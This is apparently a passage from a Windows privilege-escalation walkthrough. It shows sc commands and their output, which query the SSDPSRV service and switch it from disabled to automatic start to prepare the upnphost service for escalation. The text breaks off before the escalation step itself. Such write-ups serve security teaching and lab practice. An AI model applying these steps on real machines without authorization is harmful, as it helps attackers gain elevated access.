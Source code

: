 ```powershell
# SSDPSRV 
C:\> sc qc SSDPSRV 
[SC] GetServiceConfig SUCCESS 
SERVICE_NAME: SSDPSRV 
	TYPE : 20 WIN32_SHARE_PROCESS
	START_TYPE : 4 DISABLED
	ERROR_CONTROL : 1
	NORMAL BINARY_PATH_NAME : C:\WINDOWS\System32\svchost.exe -k LocalService
	LOAD_ORDER_GROUP :
	TAG : 0
	DISPLAY_NAME : SSDP Discovery Service
	DEPENDENCIES :
	SERVICE_START_NAME : NT AUTHORITY\LocalService
```

upnphost is the service we are going to use to escalate our privileges. As you can see upnphost has a dependency, it requires SSDPSRV to run as well. If we take a look at the current status of SSDPSRV with the command `sc query SSDPSRV` we can see that the service is currently STOPPED. If we try to start this service, we will get an error, as shown below.

```powershell
Query status

C:\> sc query SSDPSRV

SERVICE_NAME: SSDPSRV
	TYPE : 20 WIN32_SHARE_PROCESS
	STATE : 1 STOPPED
			(NOT_STOPPABLE,NOT_PAUSABLE,IGNORES_SHUTDOWN)
	WIN32_EXIT_CODE : 1077 (0x435)
	SERVICE_EXIT_CODE : 0 (0x0)
	CHECKPOINT : 0x0
	WAIT_HINT : 0x0
# Attempt to start the service

C:\> net start SSDPSRV
System error 1058 has occurred.

The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
```

In order to fix this, we will need to set the SSDPSRV from DISABLED to AUTOMATIC. Once the service is set to AUTOMATIC we will be able to start it. We can do this with the following commands.

```powershell
Set SSDPSRV to AUTOMATIC
# NOTE: There is a space between = and auto. This is important, else the command will fail.

C:\> sc config SSDPSRV start= auto
[SC] ChangeServiceConfig SUCCESS

# Double check if it's set to AUTOMATIC (or AUTO_START)

C:\> sc qc SSDPSRV
[SC] GetServiceConfig SUCCESS
SERVICE_NAME: SSDPSRV
	TYPE : 20 WIN32_SHARE_PROCESS
	START_TYPE : 2 AUTO_START
	ERROR_CONTROL : 1
	NORMAL BINARY_PATH_NAME : C:\WINDOWS\System32\svchost.exe -k LocalService
	LOAD_ORDER_GROUP :
	TAG : 0
	DISPLAY_NAME : SSDP Discovery Service
	DEPENDENCIES :
```
